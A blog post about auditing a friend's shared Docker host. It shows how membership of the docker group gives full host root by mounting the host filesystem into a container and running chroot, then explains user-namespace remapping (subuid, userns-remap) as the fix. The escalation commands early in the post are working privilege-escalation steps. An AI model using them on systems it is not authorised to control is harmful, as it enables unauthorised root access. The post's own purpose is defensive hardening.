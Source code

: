 +++
title = "Privilege escalation using Docker"
date = "2020-08-25"
author = "Aloïs Micard"
authorTwitter = "" #do not include @
cover = ""
tags = ["Docker", "Security", "Privilege Escalation"]
keywords = ["", ""]
description = ""
showFullContent = false
+++

I have done a little security audit on a friend VPS last week, he was providing Docker runtime
to some people, with SSH access, and wanted to know if his setup was secure.

By default, docker only allow to run command as root user, in most case this is not desired since giving
root access equals giving full power over the host. A simple workaround is to add the user to the 'docker'
group so that the user will be able to dial with the docker socket. That's what my friend has done. But by default
this is **not secure at ALL**.

Let's see how to use the docker group to gain full root access on the host.

This method is really similar to the [lxc group privilege escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation),
and that's how I've come up with this one.

# Privilege escalation

The only thing I had on the VPS was an un-privileged user, like the
others users.

```sh
creekorful@docker01:~$ id
uid=1001(creekorful) gid=1001(creekorful) groups=1001(creekorful),998(docker)
```

Here we can see that we are in the docker group, so we can talk to the docker daemon.

To gain root access one the host, one can create a docker container and mount the host disk
inside it.

Let's try to display the files inside host /root:

```sh
creekorful@docker01:~$ docker run -it -v /:/mnt/root debian:stable-slim ls -altr /mnt/root/root
total 56
-rw-r--r--  1 root root   570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
drwx------  2 root root  4096 Mar 27 07:52 .ssh
drwx------  2 root root  4096 Mar 27 22:43 .docker
drwxr-xr-x  3 root root  4096 Mar 27 23:07 .local
drwx------  3 root root  4096 Jun  8 09:40 .config
drwxr-xr-x 18 root root  4096 Aug 23 20:14 ..
-rw-------  1 root root 14345 Aug 25 09:14 .viminfo
drwx------  6 root root  4096 Aug 25 09:14 .
-rw-r--r--  1 root root  5774 Aug 25 09:55 .bash_history
```

Since Docker has SUID bit set, we were able to mount the whole host disk
inside the /mnt/root partition (*-v /:/mnt/root*). And since we are root, we can list */root*.

Now let's try to mount again the host filesystem
and use [chroot](https://linux.die.net/man/1/chroot) to gain full privileges.

```sh
creekorful@docker01:~$ docker run -it -v /:/mnt/root debian:stable-slim chroot /mnt/root
# id
uid=0(root) gid=0(root) groups=0(root)
```

We now have full root access on the host.

# How to mitigate the exploit?

Fortunately solutions exist to prevent this exploit. I will cover the most straightforward one.

## Linux namespaces?

Linux has a [namespacing functionality](https://www.man7.org/linux/man-pages/man7/namespaces.7.html) use to
introduce the network, mount, user, ... isolation. Containerization (and therefore Docker) uses these to add security.

Basically each container will run into his own namespaces to isolate it from the host.

The process isolation is implemented using the [user namespace](https://www.man7.org/linux/man-pages/man7/user_namespaces.7.html).
User namespace allow to have a different user inside a namespace than the parent one. We can for example run as root
inside a namespace while being un-privileged.

Let's try this quickly:

```sh
root@test-vm:~# id
uid=0(root) gid=0(root) groups=0(root)
root@test-vm:~# unshare -U /bin/sh # create a namespace and execute /bin/sh inside it
$ id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
$ echo $$ # get current pid
29552
```

By running [unshare](https://man7.org/linux/man-pages/man1/unshare.1.html) I have spawn a /bin/sh process
detached from the user namespace (-U). We can see that I'm know running as nobody inside the namespace,
despite being root on the host.

Each unix process have a /proc/\<pid>/{u,g}id_map files.
These files are used to give a user/group ID mapping: we can say something like:

uid 0 in the current namespace is mapped to uid 1000 on the parent namespace. (0 1000 ...)

Let's try to give us an identity in our namespace.

```sh
root@test-vm:~#echo "1000 0 65536" > /proc/29552/uid_map
```

By issuing this command we will override the identity mapping of the namespace in the following way:
- uid in the namespace will start at 1000
- uid will be mapped in the parent namespace starting from 0
- the next 65536 uids will be mapped using this rule

So basically the first uid being assigned in the namespaced process will have uid 1000 and this will
correspond to uid 1000+0 = 1000 in the parent namespace.

Let's confirm that:

```sh
$ id
uid=1000(creekorful) gid=65534(nogroup) groups=65534(nogroup)
```

it works! we are now running as uid 1000 in the user namespace.

## Preventing from using root

So now that we know how the user namespace is working,
we'll see how to use that in our advantage. You just need to know that for Docker, 
each container will run in his own user namespace.

Let's inspect the user identity mapping of our container:

```sh
creekorful@docker01:~$ docker run -it -v /:/mnt/root debian:stable-slim chroot /mnt/root
# cat /proc/self/uid_map
         0          0 4294967295
```

This file tells us: uid 0 for current namespace is mapped to parent uid 0, and it's the same up to uid 4294967295.
So being root in the container = being root on the host.

What we will do to mitigate the exploit is to map container uid 0 to something non-root (!= 0) on the host (the parent namespace), 
fortunately this can be done easily by using /etc/sub{g,u}id [files](https://www.man7.org/linux/man-pages/man5/subuid.5.html).

```sh
creekorful@docker01:~$ cat /etc/sub{g,u}id
debian:100000:65536
creekorful:165536:65536
debian:100000:65536
creekorful:165536:65536
...
```

These files are used to determinate the allowed range of sub {user,group} ID allowed to use by the user.
The format is: *<user>:<sub{g,u}id>:<sub{g,u}id count>*

So what we will do is add an *dockremap* (special docker user) entry to these files, and limit the sub{g,u}id of this user.

I have asked my friend to perform the following:

Add the dockremap entry to the /etc/subuid file:

```
root@docker01:~# echo 'dockremap:100:65536' >> /etc/subuid
```

By doing this we are saying: root inside the container (0) will be mapped to uid (100) in the parent namespace (on the host).

Now we must ask docker to create the container using the *dockremap* user.
This can be done by modifying /etc/docker/daemon.json

```json
{
  "userns-remap": "default"
}
```

(Default means use dockremap user).

And finally, just restart the docker daemon to apply the changes.

```sh
root@docker01:~# systemctl restart docker
```

# Let's try again

```sh
creekorful@docker01:~$ docker run -it -v /:/mnt/root debian:stable-slim /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

As we can see we are still root inside the container. But what's for the outside?

```sh
# cat /proc/self/uid_map
         0        100      65536
```

the uid is now 100 instead of 0. We are no more root (our user id on the host is now 0+100=100).

Let's try to check the content of /etc/shadow to make sure it's working:

```sh
# cat /mnt/root/etc/shadow
cat: can't open '/mnt/root/etc/shadow': Permission denied
```

the exploit is now mitigated.

Happy hacking!
